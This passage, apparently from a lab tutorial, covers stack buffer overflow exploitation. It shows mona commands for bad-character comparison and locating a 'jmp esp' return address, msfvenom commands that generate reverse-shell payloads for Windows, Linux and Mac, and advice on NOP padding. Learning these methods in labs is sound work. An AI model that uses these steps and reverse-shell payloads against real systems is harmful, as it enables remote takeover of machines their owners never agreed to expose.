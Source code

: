 Restart Immunity and run the exploit.py again. Then, use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

```
!mona compare -f C:\mona\appname\bytearray.bin -a <address> (ESP address and remember change the path of the appin "appname")
```

Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.


# 4. Finding a Jump Point
Find a jump point (Search de addres to set on the exploit in the "retn" part).
The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.

```
!mona jmp -r esp -cpb "\x00\x0a\x0d" (change "\x00\x0a\x0d" value)
```

# 5. Generate Shell Code

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:

### Windows
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0IP LPORT=NetcatPort EXITFUNC=thread -b "\x00\x0a\x0d" -f c
```

### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=tun0IP LPORT=NetcatPort -b "\x00\x0a\x0d" -f c
```

### Mac
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=tun0IP LPORT=NetcatPort -b "\x00\x0a\x0d" -f c
```

## More msfvenom shell: 
1. https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/
2. https://netsec.ws/?p=331

### Prepend NOPs

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs or higher (\\x90) to the payload.
